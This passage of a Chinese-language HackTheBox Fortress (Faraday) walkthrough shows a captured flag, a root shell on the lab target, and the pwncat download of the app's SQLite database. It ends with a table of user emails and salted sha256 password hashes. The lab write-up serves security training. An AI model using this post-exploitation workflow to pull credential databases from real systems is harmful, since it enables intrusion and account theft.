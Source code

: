 ```plaintext title="Flag"
FARADAY{7x7_1s_n0t_@lw4ys_49}
```

## Time to play

在服务的目录下，发现数据库目录

```bash
(remote) root@98aa0f47eb96:/app# ls -lh
total 40K
drwxr-xr-x 2 root root 4.0K Jul 21  2021 __pycache__
-rwxr-xr-x 1 root root 8.4K Jul 21  2021 app.py
drwxr-xr-x 2 root root 4.0K Mar  8 10:44 db
-rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
-rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt
drwxr-xr-x 3 root root 4.0K Jul 16  2021 static
drwxr-xr-x 2 root root 4.0K Jul 21  2021 templates
-rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
(remote) root@98aa0f47eb96:/app# ls -lh ./db/
total 24K
-rw-r--r-- 1 root root 24K Mar  8 10:44 database.db
```

将文件下载到本地

```bash
(local) pwncat$ download ./db/database.db .
./db/database.db ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 24.6/24.6 KB • ? • 0:00:00
[18:49:04] downloaded 24.58KiB in 2.12 seconds
```

并检测文件类型

```bash
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3016002, file counter 248, database pages 6, cookie 0x3, schema 4, UTF-8, version-valid-for 248
```

那么加载数据库，在其中得到表 `user_model`

| id  |         email          |   username    |                                      password_hash                                       |
| :-: | :--------------------: | :-----------: | :--------------------------------------------------------------------------------------: |
|  1  | `admin@faradaysec.com` | administrator | sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f |
|  2  | `octo@faradaysec.com`  |     octo      | sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258 |
|  3  | `pasta@faradaysec.com` |     pasta     | sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023 |
|  4  | `root@faradaysec.com`  |     root      | sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337 |
|  5  |    `pepe@gmail.com`    |     pepe      | sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d |
|  6  |   `nobody@gmail.com`   |    nobody     | sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1 |
|  7  |     `end@end.com`      |      end      | sha256$ZK9O08XmvQS7yUxT$ab8718152db6a666a1c696c0fabd0d1dffc8ac3c035025b446a9ad89b6a5dbe2 |
|  8  |  `mauricio@gmail.com`  |   amauricio   | sha256$zlDGBt3wrcdeNnoy$b07122a1146271d3fed91a766981823ba0b83665998fc5f9eb9d823f0ab6e0f8 |
|  9  | `mauricio2@gmail.com`  |     admin     | sha256$x1yTXRJf7lUmsKqC$f792d48616a6206b61572ecb9d42de79615157a7f143db4f77ad5cb4486fe022 |
| 10  |   `admin@gmail.com`    |   mauricio    | sha256$siz5GLNZREmRFSi0$42db32ea6e402dda2cb2f166da353968abec40a606e1fd45cc03c66599b408e1 |
| 11  |     `test@mail.ru`     |     test      | sha256$Vb6xb7xGgcnBEq7B$1540d90dca310622914e0200cbd5c648fee0d954db2cb0279cf44753e502f536 |
